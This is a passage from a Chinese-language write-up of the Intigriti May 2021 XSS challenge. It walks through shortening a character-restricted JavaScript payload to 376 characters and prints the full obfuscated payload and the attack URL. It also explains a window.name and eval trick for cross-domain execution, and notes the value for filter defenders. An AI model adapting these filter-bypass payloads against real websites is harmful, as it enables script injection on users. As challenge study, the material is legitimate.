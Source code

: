 
### 再次縮短

把上面的結果拿去平台上 submit 之後，作者說目前看到最短的是 376 個字元。我想了一陣子發現想不太到，然後就靈機一動想說：「那來試試看 v 那個方法好了，先不管瀏覽器問題」

幫大家回顧一下瀏覽器問題是什麼，那問題就是如果想用 function to string 的方式拿到 v，Chrome 跟 Firefox 產生的結果不同：

\[\]\['some'\]+''  
  
// Chrome  
"function some() { \[native code\] }"  
v: index 23  
  
// Firefox  
"function some() {  
    \[native code\]  
}"  
v: index 27

所以同一個 payload 無法同時應用在這兩個網頁上面。

先不管這問題的話，產生出來的結果是這樣：

length: 376  
\======= Payload =======  
\[\]\[\`${e}\`\[18\]+\`${e}\`\[1\]+\`${e}\`\[23\]+\`e\`\]\[\`${e}\`\[5\]+\`${e}\`\[1\]+\`${e}\`\[25\]+\`${e}\`\[18\]+\`${e}\`\[6\]+\`${e}\`\[13\]+\`${e\[0\]}\`\[0\]+\`${e}\`\[5\]+\`${e}\`\[6\]+\`${e}\`\[1\]+\`${e}\`\[13\]\]\`\_${\`e\`+\`${\[\]\[\`${e}\`\[18\]+\`${e}\`\[1\]+\`${e}\`\[23\]+\`e\`\]}\`\[23\]+\`${0/0}\`\[1\]+\`${e}\`\[21\]+\`${\[\]\[\`${e}\`\[18\]+\`${e}\`\[1\]+\`${e}\`\[23\]+\`e\`\]}\`\[13\]+\`${e}\`\[25\]+\`${0/0}\`\[1\]+\`${e}\`\[23\]+\`e\`+\`${\[\]\[\`${e}\`\[18\]+\`${e}\`\[1\]+\`${e}\`\[23\]+\`e\`\]}\`\[14\]}\`\` \`  
\======= URL =======  
https://challenge-0521.intigriti.io/captcha.php?c=\[\]\[\`${e}\`\[18\]%2b\`${e}\`\[1\]%2b\`${e}\`\[23\]%2b\`e\`\]\[\`${e}\`\[5\]%2b\`${e}\`\[1\]%2b\`${e}\`\[25\]%2b\`${e}\`\[18\]%2b\`${e}\`\[6\]%2b\`${e}\`\[13\]%2b\`${e\[0\]}\`\[0\]%2b\`${e}\`\[5\]%2b\`${e}\`\[6\]%2b\`${e}\`\[1\]%2b\`${e}\`\[13\]\]\`\_${\`e\`%2b\`${\[\]\[\`${e}\`\[18\]%2b\`${e}\`\[1\]%2b\`${e}\`\[23\]%2b\`e\`\]}\`\[23\]%2b\`${0/0}\`\[1\]%2b\`${e}\`\[21\]%2b\`${\[\]\[\`${e}\`\[18\]%2b\`${e}\`\[1\]%2b\`${e}\`\[23\]%2b\`e\`\]}\`\[13\]%2b\`${e}\`\[25\]%2b\`${0/0}\`\[1\]%2b\`${e}\`\[23\]%2b\`e\`%2b\`${\[\]\[\`${e}\`\[18\]%2b\`${e}\`\[1\]%2b\`${e}\`\[23\]%2b\`e\`\]}\`\[14\]}\`\`\`

376 個字，跟剛剛的 466 比起來少了快一百個。

用來產生的完整程式碼：

有些人可能不知道為什麼 `eval(name)` 可以，這是因為 `window.name` 是個神奇的屬性，基本上同一個分頁的 name 會相同，所以我們只要自己新建一個 html，裡面寫 JS 並且設定 `window.name = 'alert(document.domain)'`，然後用 `location=` 跳轉到 PHP 那邊，那裡的 `name` 就會是我們剛剛設定好的。

沒錯，跨網域也適用。

因為我最後試出來的結果也是 376 個字，跟作者說的最短 payload 相同，詢問過後發現其實就是同一個。

### 結語

從這個挑戰中可以學到一些 JS 相關的東西，像是：

1.  在限制之下湊出指定字元
2.  用反引號 backtick 來呼叫函式以及參數的規則
3.  用 function constructor 動態建立函式

這些知識在什麼時候會有用呢？對攻擊者而言，當你碰到一個有過濾字元的地方的時候，就可以利用這些技巧想辦法繞過限制。

對防禦方來說，在過濾時就需要考量到這些繞過的方法，如果知道可以這樣繞過，就能把 filter 訂得更精確。

不過這都只是後話，對我來說會解這些題目只是因為好玩，也沒有去想說會有什麼幫助，那些都是以後的事了。

這個平台每個月都會有 XSS 挑戰，期待之後的更多挑戰！